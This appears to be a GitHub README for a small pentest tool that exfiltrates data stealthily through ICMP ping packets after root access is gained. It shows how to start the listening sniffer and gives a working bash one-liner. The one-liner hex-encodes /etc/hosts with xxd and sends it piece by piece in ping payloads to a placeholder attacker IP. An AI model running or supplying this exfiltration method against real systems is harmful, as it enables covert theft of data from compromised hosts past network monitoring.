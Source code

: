 # ICMP-exfiltrator
A simple script for data exfiltration using ICMP packets.

This script will be useful at the end of a pentest to steal data when otherwise we could not.After getting root we could use this script to exfiltrate data to our attacker's server stealthily via ICMP packets.

# Usage

We let our sniffer listen.

``` python
python3 icmp_exfiltration.py 2> /dev/null
```
Using the xxd command we can encode a file and send it to the attacker's sniffer via ping.

```bash
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 -p $line <attackers_IP_address> ; done
```
# Screenshots

